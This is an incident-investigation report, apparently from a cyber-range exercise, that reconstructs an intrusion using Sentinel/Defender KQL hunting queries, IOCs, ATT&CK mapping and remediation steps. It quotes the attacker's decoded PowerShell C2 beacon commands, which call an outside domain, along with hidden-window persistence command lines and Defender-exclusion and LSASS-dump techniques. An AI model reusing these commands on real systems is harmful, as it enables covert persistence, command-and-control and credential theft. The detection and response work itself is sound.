# Threat Hunt: Signal After The Noise
## Incident Investigation Report

**Analyst:** Santiago Abel Ruiz Diaz
**Incident ID:** IR-2025-1213-C2
**Environment:** Microsoft Sentinel / Microsoft Defender for Endpoint (`LAW-Cyber-Range`)
**Severity:** Critical
**Status:** Confirmed compromise — dual persistent C2, LSASS dump, live desktop access
**Date of Activity:** December 13, 2025
**Investigation Window:** 09:27–15:55 UTC
**Data Sources:** `DeviceLogonEvents`, `DeviceProcessEvents`, `DeviceFileEvents`, `DeviceNetworkEvents`, `DeviceRegistryEvents`, `DeviceEvents`

---



---

## Executive Summary

A post-intrusion investigation into a corporate Azure estate confirmed a full operator playbook executed across two workstations in under 30 minutes. The breach was already established when the hunt began — the objective was to reconstruct exactly how the operator moved, what they deployed, and what they left behind.

The attacker entered via credential reuse from a compromised workstation (`sarah-chen`'s machine as the external launch point), pivoted to a second host via a pre-staged RDP file, and within 25 minutes of landing had deployed a masqueraded implant, silenced Defender with a timed exclusion window, and installed three independent persistence mechanisms. A dual-channel C2 was established over Cloudflare-fronted HTTPS. LSASS memory was dumped with `PROCESS_ALL_ACCESS`. Microsoft 365 sign-in was targeted. At 15:55 UTC — 6.5 hours after initial entry — `notepad.exe`, `calc.exe`, and `mspaint.exe` launched interactively, confirming live hands-on-keyboard access still active.

The entire operation used legitimate tooling, Cloudflare-fronted infrastructure, and timed evasion — no single event would have triggered a standalone alert. Detection required correlating behavior across six log tables.

---

## Key Findings

- **Entry point:** Credential reuse from `sarah-chen`'s compromised workstation (`173.244.55.131`)
- **Logon failure code:** `UnauthorizedLogonType` — credentials were valid on first attempt, no brute force
- **Lateral movement:** Pre-staged RDP file on disk — planned pivot to `azwks-phtg-01`, not opportunistic
- **Implant:** `PHtGHealthCloudSvc.exe` masquerading as `bitsadmin.exe` via VersionInfo tampering
- **Persistence:** Three simultaneous mechanisms — Startup LNK, HKCU Run key, HKLM EventLog registration
- **Defense evasion:** Timed Defender exclusion (add → payload drops → remove within seconds); 19 `attrib.exe` file-hiding operations
- **C2:** Dual Cloudflare-fronted channels to `health-cloud.cc` — 22 healthcheck beacons + Base64-encoded PowerShell beacon pair
- **Credential access:** LSASS memory read with `0x1FFFFF` (`PROCESS_ALL_ACCESS`) confirmed via `ReadProcessMemoryApiCall`
- **Live access confirmed:** `notepad.exe`, `calc.exe`, `mspaint.exe` launched interactively at 15:55 UTC — 6.5 hours after entry

---

## Hunt Methodology

**Starting point:** The breach was already established. This was not a detection — it was a post-intrusion reconstruction. The task was to answer: how did they get in, what did they do, what did they leave behind, and how long were they in?

**Hypothesis:** A sophisticated operator with pre-positioned tooling would leave behavioral fingerprints even without generating alerts — the signal would be in timing, process relationships, and the gap between `FileName` and `ProcessVersionInfoOriginalFileName`.

**Phase 1 — Entry point identification.** I started with `DeviceLogonEvents` on the entry host, filtering for external logons. The source IP `173.244.55.131` resolved to `sarah-chen`'s workstation via `RemoteDeviceName`. The failure codes before the successful logon showed `UnauthorizedLogonType` — not wrong passwords. The credentials were valid from the first attempt. That distinction matters: it rules out brute force and points to prior credential theft.

**Phase 2 — Lateral movement reconstruction.** Filtering process events on `azwks-phtg-02` for `mstsc.exe` showed it launched from a pre-staged `.rdp` file already in the Downloads folder 21 minutes after entry. Pre-staging means the operator knew the second target before they entered — this wasn't exploratory movement.

**Phase 3 — Tooling deployment.** On `azwks-phtg-01`, the key signal was `FileName != ProcessVersionInfoOriginalFileName`. That single KQL filter surfaces the masqueraded implant immediately without knowing its name. The download-then-execute pattern appeared as a 1-second gap between the PowerShell outbound call and the binary launch.

**Phase 4 — Evasion and persistence.** The timed Defender exclusion (add/remove within seconds) only appeared when correlating `DeviceEvents` for `PowerShellCommand` actions in a narrow time window. The three persistence mechanisms all fired at 10:13 UTC — isolating registry writes by `vmadminusername` while filtering out OS churn surfaced all three in a single query.

**Phase 5 — C2 and credential access.** Base64-encoded beacon commands were decoded directly in KQL using `base64_decode_tostring()`. The LSASS dump was found by filtering 139 `OpenProcessApiCall` events to exclude system accounts — one remained, from `powershell.exe` under `vmadminusername`, with `0x1FFFFF` as the access mask.

---

## Key Analyst Observations

These findings required active reasoning — they wouldn't appear in a standard alert queue:

**1. `UnauthorizedLogonType` rules out brute force — and implies prior credential theft.**
The failure code before first success was `UnauthorizedLogonType`, not `WrongPassword`. The credentials were valid from the start. This distinction redirects the investigation entirely: the question is no longer "how did they guess the password?" but "where did they steal it from?" — pointing back to `sarah-chen`'s workstation as a prior compromise.

**2. Pre-staged RDP file = planned operation, not opportunistic lateral movement.**
The `.rdp` file was already on disk in the Downloads folder when the operator landed on `azwks-phtg-02`. It launched 21 minutes after entry. An attacker who is improvising explores; an attacker who pre-stages a target-specific RDP file already knows what they're after. This signals a multi-stage operation with prior reconnaissance.

**3. Timed Defender exclusion — add, drop payload, remove within seconds.**
The temporary `Add-MpPreference` exclusion appeared and disappeared in a narrow window around the payload drop. Querying `DeviceEvents` for `PowerShellCommand` in that 90-second window showed the add and remove events bracketing the binary landing on disk. If only one timestamp is checked, the exclusion looks like it was never there.

**4. `FileName != ProcessVersionInfoOriginalFileName` as a universal LOLBin filter.**
The implant (`PHtGHealthCloudSvc.exe`) reported `bitsadmin.exe` as its `ProcessVersionInfoOriginalFileName`. This single KQL condition surfaces any process on the host where the binary name doesn't match the claimed original — a high-fidelity filter that works even without knowing the implant's name in advance.

**5. Base64-decoded C2 beacons revealed directly in KQL.**
The encoded PowerShell commands were decoded using `base64_decode_tostring()` inline in the query, surfacing the exact C2 URLs: `https://status.health-cloud.cc/api/checkin?device=azwks-phtg-01` and `https://status.health-cloud.cc/api/status?device=azwks-phtg-01`. No external tool needed — the decoding happened inside Sentinel.

**6. 139 LSASS handle events — one non-baseline actor.**
`OpenProcessApiCall` on `lsass.exe` generates significant background noise from system processes. Filtering to exclude `system`, `network service`, and `local service` accounts collapsed 139 events to one: `powershell.exe` under `vmadminusername`. The follow-up query confirmed `0x1FFFFF` — `PROCESS_ALL_ACCESS` — and a subsequent `ReadProcessMemoryApiCall` confirmed the dump completed.

**7. Persistence confirmed firing autonomously at 13:40 UTC.**
The Startup LNK and Run key triggered at 13:40 UTC with no active RDP session. The operator had already left. The persistence mechanisms were confirmed live — not just installed but actually executing — without any interactive session present.

**8. Live desktop confirmed by application launches at 15:55 UTC.**
`notepad.exe`, `calc.exe`, and `mspaint.exe` launched interactively 6.5 hours after initial entry. These are not background processes or scheduled tasks — they confirm a human operator with live desktop access was still present deep into the afternoon, long after the initial tooling phase.

---

## Environment

| Component | Details |
|---|---|
| SIEM | Microsoft Sentinel |
| EDR | Microsoft Defender for Endpoint (MDE) |
| Log Sources | DeviceLogonEvents, DeviceProcessEvents, DeviceFileEvents, DeviceNetworkEvents, DeviceRegistryEvents, DeviceEvents |
| Entry host | `azwks-phtg-02` |
| Pivot host | `azwks-phtg-01` |
| Operator account | `vmadminusername` |

---

## Attack Chain

### Initial Access — Credential Reuse from a Compromised Workstation

At **09:27:58 UTC**, `vmadminusername` authenticated to `azwks-phtg-02` from `173.244.55.131` — the IP of `sarah-chen`'s workstation. Pre-logon failure events show `UnauthorizedLogonType`, not wrong passwords — the credentials were valid from the first attempt. No brute force, no spray. `sarah-chen`'s machine is not a relay — it is the operator's external launch point.

```kql
// Trace the external logon and confirm sarah-chen as the launch point
DeviceLogonEvents
| where TimeGenerated between (datetime(2025-12-13T09:40:00Z) .. datetime(2025-12-13T18:00:00Z))
| where RemoteDeviceName contains "sarah"
| project TimeGenerated, DeviceName, AccountName, LogonType, RemoteIP, RemoteDeviceName
| order by TimeGenerated asc
```



```kql
// Confirm no brute force — failed logons show UnauthorizedLogonType, not bad credentials
DeviceLogonEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T09:28:00Z))
| where DeviceName == "azwks-phtg-02"
| where ActionType == "LogonFailed"
| project TimeGenerated, AccountName, LogonType, RemoteIP, FailureReason
| order by TimeGenerated asc
```



**MITRE:** T1078 — Valid Accounts

---

### Lateral Movement — Pre-Staged RDP File

**21 minutes after entry**, at 09:48 UTC, the operator launched a pre-staged RDP file already on disk in the Downloads folder — a planned pivot to a specific second target, not exploratory movement. `CredentialUIBroker` fired immediately after `mstsc.exe`. No further lateral movement beyond `azwks-phtg-01` was detected.

```kql
// Find the pre-staged RDP file launch on the entry host
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T09:27:00Z) .. datetime(2025-12-13T10:00:00Z))
| where DeviceName == "azwks-phtg-02"
| where AccountName == "vmadminusername"
| project TimeGenerated, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
```



```kql
// Confirm the logon to the pivot host and check for onward movement
DeviceLogonEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T18:00:00Z))
| where RemoteIP == "10.0.0.152"
| project TimeGenerated, DeviceName, AccountName, LogonType, RemoteIP, RemoteDeviceName
| order by TimeGenerated asc
```



**MITRE:** T1021.001 — Remote Services: Remote Desktop Protocol

---

### Tooling Deployment — Download-Then-Execute

A pre-staged `_.ps1` script made an outbound HTTPS call to `updates.health-cloud.cc`. **One second later**, `PHtGHealthCloudSvc.exe` launched — classic download-then-execute. All tooling staged under `C:\ProgramData\PHTG\HealthCloud\`. The implant spoofed `bitsadmin.exe` via VersionInfo tampering — `FileName` is `PHtGHealthCloudSvc.exe` but `ProcessVersionInfoOriginalFileName` reports `bitsadmin.exe`. Its staging path under `C:\ProgramData\PHTG\HealthCloud\` distinguishes it from any legitimate binary with a mismatched VersionInfo field. All PowerShell execution used `-WindowStyle Hidden -ExecutionPolicy Bypass`.

```kql
// Find the first operator script and expose the concealment flags
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T09:48:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where AccountName == "vmadminusername"
| where FileName == "powershell.exe"
| project TimeGenerated, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
| take 1
```



```kql
// Identify the LOLBin masquerade — FileName differs from OriginalFileName in the operator's binary
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where AccountName == "vmadminusername"
| where FileName != ProcessVersionInfoOriginalFileName
| where ProcessVersionInfoOriginalFileName != ""
| project TimeGenerated, FileName, ProcessVersionInfoOriginalFileName, FolderPath, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated desc
```



```kql
// Confirm the download-then-execute pattern — outbound call 1 second before binary launch
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T10:12:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| project TimeGenerated, ProcessCommandLine
| order by TimeGenerated asc
```



**MITRE:** T1105 — Ingress Tool Transfer, T1036.003 — Masquerading: Rename System Utilities, T1059.001 — PowerShell, T1564.003 — Hidden Window

---

### Defense Evasion — Silencing Defender Before Persistence Lands

The operator ran `AMSI_probe.ps1` to confirm the environment was safe, then briefly excluded the PHTG user-profile path via `Add-MpPreference` — removed within seconds, just long enough for the payload to drop. After persistence landed, two permanent exclusions were added via `msmpeng.exe`. Defender detected `PHTG HealthCloud.lnk` but `WasExecutingWhileDetected: false` confirms it didn't block. `attrib.exe` hid files across `Cache` (17 hits) and `TempCache` (2 hits). Two `cmd.exe` invocations broke parent-process lineage.

```kql
// Confirm Defender exclusions written via msmpeng.exe
DeviceRegistryEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where RegistryKey contains "Defender"
| project TimeGenerated, ActionType, RegistryKey, RegistryValueName, RegistryValueData, InitiatingProcessFileName
| order by TimeGenerated asc
```



```kql
// Find attrib.exe usage and count modifications per staging directory
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where FileName == "attrib.exe"
| extend Dir = case(
    ProcessCommandLine contains "\\Cache\\", "Cache",
    ProcessCommandLine contains "\\TempCache\\", "TempCache",
    "other")
| summarize Count = count() by Dir
| order by Count desc
```



```kql
// Surface the AMSI probe from the non-encoded PowerShell scripts in the Bin directory
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T10:12:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where FileName == "powershell.exe"
| where ProcessCommandLine !contains "-EncodedCommand"
| where ProcessCommandLine contains "Bin"
| project TimeGenerated, ProcessCommandLine, InitiatingProcessCommandLine
| order by TimeGenerated asc
```



```kql
// Detect the permanent Defender exclusions added after persistence
DeviceEvents
| where DeviceName == "azwks-phtg-01"
| where TimeGenerated between (datetime(2025-12-13T09:48:40Z) .. datetime(2025-12-13T18:00:00Z))
| where ActionType == "PowerShellCommand"
| where AdditionalFields contains "Add-MpPreference"
| project TimeGenerated, AdditionalFields
| order by TimeGenerated asc
```



```kql
// Prove the add-then-remove pattern on the temporary exclusion
DeviceEvents
| where DeviceName == "azwks-phtg-01"
| where TimeGenerated between (datetime(2025-12-13T10:11:00Z) .. datetime(2025-12-13T10:12:30Z))
| where ActionType == "PowerShellCommand"
| where AdditionalFields contains "MpPreference"
| project TimeGenerated, AdditionalFields
| order by TimeGenerated asc
```



**MITRE:** T1562.001 — Impair Defenses: Disable or Modify Tools, T1564 — Hide Artifacts, T1059.003 — Windows Command Shell

---

### Persistence — Three Mechanisms

All three mechanisms installed at **10:13 UTC** — 25 minutes after landing on `azwks-phtg-01`.

**1. Startup LNK — fires at every user logon**
```powershell
C:\Users\vmAdminUsername\AppData\...\Startup\PHTG HealthCloud.lnk
→ PowerShell.exe -NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\ProgramData\PHTG\HealthCloud\Cache\task_FLAG-05.ps1
```

**2. Run Key — independent logon-triggered path**
```
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
Value: PHTGHealthCloudTray
Data:  powershell.exe -NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -File "C:\ProgramData\PHTG\HealthCloud\Bin\HealthCloudTray.ps1"
```

**3. HKLM EventLog Registration — blends implant writes into trusted Application log telemetry**
```
HKLM\SYSTEM\ControlSet001\Services\EventLog\Application\PHTGHealthCloud
```

```kql
// Find the Startup LNK creation
DeviceFileEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where FolderPath contains "Startup"
| project TimeGenerated, ActionType, FileName, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```




```kql
// Isolate the operator's Run key entry from the background OS churn
DeviceRegistryEvents
| where TimeGenerated > datetime(2025-12-13T09:48:00Z)
| where DeviceName == "azwks-phtg-01"
| where InitiatingProcessAccountName =~ "vmadminusername"
| where RegistryKey !contains "CLSID"
| where RegistryKey !contains "MuiCache"
| where RegistryKey !contains "Themes"
| where RegistryKey contains "Run" or RegistryKey contains "Startup" or RegistryKey contains "Services"
| project TimeGenerated, ActionType, RegistryKey, RegistryValueName, RegistryValueData
| order by TimeGenerated asc
```




```kql
// Confirm the HKLM EventLog source registration
DeviceRegistryEvents
| where TimeGenerated > datetime(2025-12-13T09:48:00Z)
| where DeviceName == "azwks-phtg-01"
| where InitiatingProcessAccountName =~ "vmadminusername"
| where RegistryKey startswith "HKEY_LOCAL_MACHINE"
| project TimeGenerated, ActionType, RegistryKey, RegistryValueName, RegistryValueData
| order by TimeGenerated asc
```



**MITRE:** T1547.001 — Registry Run Keys / Startup Folder, T1112 — Modify Registry

---

### Command & Control — Dual Beacons, Cloudflare-Fronted

**Channel 1 — implant healthcheck loop:** `PHtGHealthCloudSvc.exe` (masquerading as `bitsadmin.exe`) fired **22 healthcheck executions** to confirm liveness.

**Channel 2 — Base64-encoded PowerShell beacons** decoded via `base64_decode_tostring()` in KQL:
```powershell
Invoke-WebRequest -Uri "https://status.health-cloud.cc/api/checkin?device=azwks-phtg-01" -UseBasicParsing -TimeoutSec 5 | Out-Null
Invoke-WebRequest -Uri "https://status.health-cloud.cc/api/status?device=azwks-phtg-01"  -UseBasicParsing -TimeoutSec 5 | Out-Null
```

Both resolved to Cloudflare-fronted IPs over 443/TLS. Dual-channel: if one is cut, the other survives; each serves a distinct function (liveness vs. tasking).

```kql
// Count healthcheck beacon executions
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where ProcessVersionInfoOriginalFileName =~ "bitsadmin.exe"
| count
```



```kql
// Surface the encoded PowerShell beacons
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T09:00:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where ProcessCommandLine contains "EncodedCommand"
| project TimeGenerated, ProcessCommandLine
| order by TimeGenerated asc
```




```kql
// Confirm resolved IPs and ports for both C2 subdomains
DeviceNetworkEvents
| where TimeGenerated between (datetime(2025-12-13T10:12:00Z) .. datetime(2025-12-13T10:16:00Z))
| where DeviceName == "azwks-phtg-01"
| where RemoteUrl contains "health-cloud" or RemoteIP != ""
| project TimeGenerated, DeviceName, ActionType, RemoteIP, RemoteUrl, RemotePort, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```



**MITRE:** T1071.001 — Application Layer Protocol: Web Protocols, T1027 — Obfuscated Files, T1090 — Proxy

---

### Credential Access — LSASS Memory Read

Among 139 `OpenProcessApiCall` events on `lsass.exe`, one stood out: `powershell.exe` under `vmadminusername`. Two access requests fired one second apart — the second was `0x1FFFFF` (`PROCESS_ALL_ACCESS`). A `ReadProcessMemoryApiCall` confirmed the dump followed through.

```kql
// Isolate the non-baseline LSASS handle request
DeviceEvents
| where DeviceName == "azwks-phtg-01"
| where TimeGenerated between (datetime(2025-12-13T09:48:40Z) .. datetime(2025-12-13T18:00:00Z))
| where ActionType == "OpenProcessApiCall"
| where FileName == "lsass.exe"
| where InitiatingProcessAccountName != "system"
| where InitiatingProcessAccountName != "network service"
| where InitiatingProcessAccountName != "local service"
| project TimeGenerated, InitiatingProcessFileName, InitiatingProcessAccountName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```



```kql
// Decode both DesiredAccess values — 0x1FFFFF is PROCESS_ALL_ACCESS
DeviceEvents
| where DeviceName == "azwks-phtg-01"
| where TimeGenerated between (datetime(2025-12-13T09:48:40Z) .. datetime(2025-12-13T18:00:00Z))
| where ActionType == "OpenProcessApiCall"
| where FileName == "lsass.exe"
| where InitiatingProcessAccountName == "vmadminusername"
| project TimeGenerated, AdditionalFields
| order by TimeGenerated asc
```



```kql
// Confirm the memory read followed the handle — dump confirmed
DeviceEvents
| where DeviceName == "azwks-phtg-01"
| where TimeGenerated between (datetime(2025-12-13T09:48:40Z) .. datetime(2025-12-13T18:00:00Z))
| where FileName == "lsass.exe"
| summarize count() by ActionType
```



**MITRE:** T1003.001 — OS Credential Dumping: LSASS Memory

---

### Final Actions — M365 Targeting + Confirmed Live Access

`phtg_activity.ps1` drove Edge to `login.microsoftonline.com` repeatedly. Persistence confirmed firing at **13:40 UTC** without an active RDP session — the Startup LNK and Run key mechanisms triggering autonomously. At **15:55 UTC**, `notepad.exe`, `calc.exe`, and `mspaint.exe` launched interactively — live desktop access confirmed, nearly 6.5 hours after initial entry.

```kql
// Trace final operator actions on the pivot host
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T10:30:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where AccountName == "vmadminusername"
| project TimeGenerated, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
```





**MITRE:** T1078.004 — Valid Accounts: Cloud Accounts

---

## Timeline of Notable Events

| Time (UTC) | Event |
|---|---|
| 09:27:58 | `vmadminusername` authenticates to `azwks-phtg-02` from `173.244.55.131` (sarah-chen's workstation) |
| 09:27–09:28 | Pre-logon failures show `UnauthorizedLogonType` — credentials valid on first attempt, no brute force |
| 09:48 | Pre-staged RDP file launched from Downloads folder — planned pivot to `azwks-phtg-01` (21 min after entry) |
| 09:48 | `CredentialUIBroker` fires — credential prompt for RDP session to pivot host |
| 10:11–10:12 | `AMSI_probe.ps1` runs; temporary `Add-MpPreference` exclusion added then removed within seconds |
| 10:12 | `_.ps1` makes outbound HTTPS call to `updates.health-cloud.cc` |
| 10:12 + 1s | `PHtGHealthCloudSvc.exe` launches — download-then-execute confirmed |
| 10:13 | Three persistence mechanisms installed simultaneously: Startup LNK, HKCU Run key, HKLM EventLog registration |
| 10:13+ | Permanent Defender exclusions written via `msmpeng.exe` |
| 10:13+ | `attrib.exe` hides files — 17 hits in `Cache`, 2 hits in `TempCache` |
| 10:13+ | Dual C2 beacons active — 22 healthcheck executions + Base64 PowerShell beacon pair to `health-cloud.cc` |
| ~10:30 | `phtg_activity.ps1` drives Edge to `login.microsoftonline.com` — M365 targeting begins |
| ~10:30+ | LSASS memory read — `powershell.exe` requests `0x1FFFFF` (PROCESS_ALL_ACCESS); dump confirmed |
| 13:40 | Persistence fires autonomously — Startup LNK + Run key trigger without active RDP session |
| 15:55 | `notepad.exe`, `calc.exe`, `mspaint.exe` launch interactively — live hands-on-keyboard access confirmed |
| **Total active window** | **~6.5 hours** (09:27–15:55 UTC) |

---

## Impact Assessment

| Category | Finding |
|---|---|
| Confirmed compromise | Yes — two Azure workstations (`azwks-phtg-02`, `azwks-phtg-01`) |
| Active dwell time | ~6.5 hours (09:27–15:55 UTC) |
| Credential access | Confirmed — LSASS memory dumped with PROCESS_ALL_ACCESS; all credentials cached on `azwks-phtg-01` are compromised |
| Persistent C2 | Yes — dual-channel, Cloudflare-fronted; still active at end of investigation window |
| Persistence mechanisms | Three independent — Startup LNK, HKCU Run key, HKLM EventLog registration |
| Cloud account targeting | Yes — M365 sign-in activity to `login.microsoftonline.com`; cloud account access scope unknown |
| Live desktop access | Confirmed at 15:55 UTC — operator had interactive control |
| Defender bypassed | Yes — timed exclusion window allowed payload drop without detection |
| Lateral movement | Entry host (`azwks-phtg-02`) → pivot host (`azwks-phtg-01`); no further hosts confirmed |
| Source compromise | `sarah-chen`'s workstation used as external launch point — prior credential theft implied |

---

## IOC Summary

| Type | Value |
|---|---|
| External IP | `173.244.55.131` (sarah-chen's workstation — operator launch point) |
| Entry host | `azwks-phtg-02` |
| Pivot host | `azwks-phtg-01` |
| Operator account | `vmadminusername` |
| C2 domain | `health-cloud.cc` |
| C2 subdomain | `updates.health-cloud.cc` |
| C2 subdomain | `status.health-cloud.cc` |
| C2 IP | `104.21.36.232` (Cloudflare-fronted) |
| C2 IP | `172.67.200.204` (Cloudflare-fronted) |
| Implant path | `C:\ProgramData\PHTG\HealthCloud\` |
| Implant binary | `PHtGHealthCloudSvc.exe` (masquerades as `bitsadmin.exe`) |
| Startup LNK | `PHTG HealthCloud.lnk` |
| Run key value | `PHTGHealthCloudTray` |
| HKLM registration | `HKLM\SYSTEM\ControlSet001\Services\EventLog\Application\PHTGHealthCloud` |

---

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Detail |
|---|---|---|---|
| Initial Access | Valid Accounts | T1078 | Credential reuse from compromised workstation — valid on first attempt |
| Lateral Movement | Remote Services: Remote Desktop Protocol | T1021.001 | Pre-staged RDP file — planned pivot to `azwks-phtg-01` |
| Execution | PowerShell | T1059.001 | All operator scripts used `-WindowStyle Hidden -ExecutionPolicy Bypass` |
| Execution | Windows Command Shell | T1059.003 | `cmd.exe` used to break parent-process lineage |
| Ingress Tool Transfer | Ingress Tool Transfer | T1105 | `_.ps1` downloads `PHtGHealthCloudSvc.exe` from `updates.health-cloud.cc` |
| Defense Evasion | Masquerading: Rename System Utilities | T1036.003 | `PHtGHealthCloudSvc.exe` spoofs `bitsadmin.exe` via VersionInfo tampering |
| Defense Evasion | Hidden Window | T1564.003 | All PowerShell execution via `-WindowStyle Hidden` |
| Defense Evasion | Hide Artifacts | T1564 | `attrib.exe` — 19 file-hiding operations across Cache and TempCache |
| Defense Evasion | Impair Defenses: Disable or Modify Tools | T1562.001 | Timed `Add-MpPreference` exclusion + permanent exclusions via `msmpeng.exe` |
| Persistence | Registry Run Keys / Startup Folder | T1547.001 | Startup LNK + HKCU Run key `PHTGHealthCloudTray` |
| Persistence | Modify Registry | T1112 | HKLM EventLog source registration blends implant into Application log |
| Command & Control | Application Layer Protocol: Web Protocols | T1071.001 | Dual Cloudflare-fronted HTTPS beacons to `health-cloud.cc` |
| Command & Control | Obfuscated Files or Information | T1027 | Base64-encoded PowerShell beacon commands |
| Command & Control | Proxy | T1090 | Cloudflare fronting masks true C2 infrastructure |
| Credential Access | OS Credential Dumping: LSASS Memory | T1003.001 | `powershell.exe` PROCESS_ALL_ACCESS on lsass.exe; ReadProcessMemoryApiCall confirmed |
| Credential Access | Valid Accounts: Cloud Accounts | T1078.004 | M365 sign-in activity to `login.microsoftonline.com` |

---

## Containment & Remediation

### Immediate Containment
1. **Isolate both hosts** — remove `azwks-phtg-01` and `azwks-phtg-02` from the network immediately; C2 is still active
2. **Revoke all active sessions for `vmadminusername`** and reset credentials across all systems
3. **Assume full credential compromise on `azwks-phtg-01`** — rotate all domain accounts that have logged into that host; the LSASS dump means every cached credential is in attacker hands
4. **Remove all three persistence mechanisms:**
   - Delete `PHTG HealthCloud.lnk` from the Startup folder
   - Remove `PHTGHealthCloudTray` from `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
   - Remove `HKLM\SYSTEM\ControlSet001\Services\EventLog\Application\PHTGHealthCloud`
5. **Kill and remove the implant** — terminate `PHtGHealthCloudSvc.exe` and delete all files under `C:\ProgramData\PHTG\HealthCloud\`
6. **Block C2 infrastructure** — DNS block and firewall block `health-cloud.cc`, `updates.health-cloud.cc`, `status.health-cloud.cc`; block IPs `104.21.36.232` and `172.67.200.204`
7. **Investigate `sarah-chen`'s workstation** — it was the operator's external launch point; treat it as compromised and scope the prior breach

### Near-Term Hardening
1. **Rotate all domain credentials** — LSASS dump on `azwks-phtg-01` means every account cached there is exposed; rotate before returning hosts to service
2. **Hunt for the same implant across the estate** — search all hosts for `C:\ProgramData\PHTG\`, `PHtGHealthCloudSvc.exe`, Run key value `PHTGHealthCloudTray`, and the HKLM EventLog registration
3. **Audit M365 sign-in logs** — review for any unauthorized access under `vmadminusername` or sarah-chen's account; the M365 targeting scope is unknown
4. **Review Defender exclusion history** across all hosts — `Add-MpPreference` from non-system accounts should never occur in a managed environment
5. **Audit all Startup folders and Run keys** across the estate for non-standard entries
6. **Enable Credential Guard** on all workstations to protect LSASS memory from future dumping attempts

### Strategic Improvements
1. **Alert on `FileName != ProcessVersionInfoOriginalFileName`** — this single KQL condition surfaces any LOLBin masquerade on the host, no prior knowledge of the binary name required
2. **Alert on `OpenProcessApiCall` to `lsass.exe` from non-system processes** — filter out system/network service/local service accounts; any remainder is high-fidelity
3. **Alert on `Add-MpPreference` executed by non-system accounts** — no legitimate user should be modifying Defender exclusions interactively
4. **Alert on pre-staged `.rdp` files in user Download/Desktop directories** — legitimate users open RDP files from shared drives or email, not pre-staged local files
5. **Restrict outbound HTTPS to uncategorized domains** — `health-cloud.cc` would be uncategorized at the time of the attack; a proxy or DNS filter with category enforcement would have blocked both C2 channels
6. **Implement Attack Surface Reduction (ASR) rules** — specifically the rules targeting credential stealing from LSASS and PowerShell execution from `%ProgramData%`
7. **Require MFA for all RDP sessions** — credential reuse alone was sufficient for entry; MFA would have required the attacker to also have the second factor

---

## Full Hunt Notes

For the complete phase-by-phase and question-by-question KQL walkthrough, see [hunt-notes.md](hunt-notes.md).

**Key skills demonstrated:** Proactive behavioral threat hunting across 6 MDE/Sentinel tables, LOLBin masquerade detection, Base64 beacon decoding in KQL, LSASS dump confirmation via access mask analysis, timed evasion pattern reconstruction, persistence mechanism identification across registry and filesystem, MITRE ATT&CK mapping, IR lifecycle (detect → analyze → contain → remediate).
